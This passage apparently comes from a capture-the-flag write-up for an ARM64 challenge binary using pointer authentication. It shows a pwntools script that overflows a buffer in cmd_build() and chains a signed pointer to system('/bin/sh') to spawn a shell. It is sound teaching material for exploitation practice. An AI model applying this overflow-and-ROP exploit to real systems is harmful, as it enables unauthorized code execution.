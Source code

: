 Now all that's left to do is create a simple ROP chain that uses the gadget we
found earlier and the `system()` function to get a shell. Since the binary is
static and contains `system()` it also certainly contains the string
`"/bin/sh"`.

```python
# Exploit buffer overflow in cmd_build() overwriting the main()'s saved x30
# with signed_ptr, then exit (cmd 6) to gain PC control.
exe = ELF('./pac', checksec=False)
bin_sh = next(exe.search(b'/bin/sh\0'))

chain = flat(signed_ptr, [0] * 5, exe.sym.system, [0] * 16, bin_sh)

# Build
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', chain)
r.sendlineafter(b'? ', b'2')

# Exit: return from main()
r.sendlineafter(b'> ', b'6')

# We should now have a shell
r.interactive()
```

### Complete exploit

See [`checker/__main__.py`](checker/__main__.py) for the final automated exploit
script.

[aarch64-pacia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/PACIA--PACIZA--PACIA1716--PACIASP--PACIAZ
[aarch64-autia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/AUTIA--AUTIZA--AUTIA1716--AUTIASP--AUTIAZ
[aarch64-retaa]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/RETAA--RETAB
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
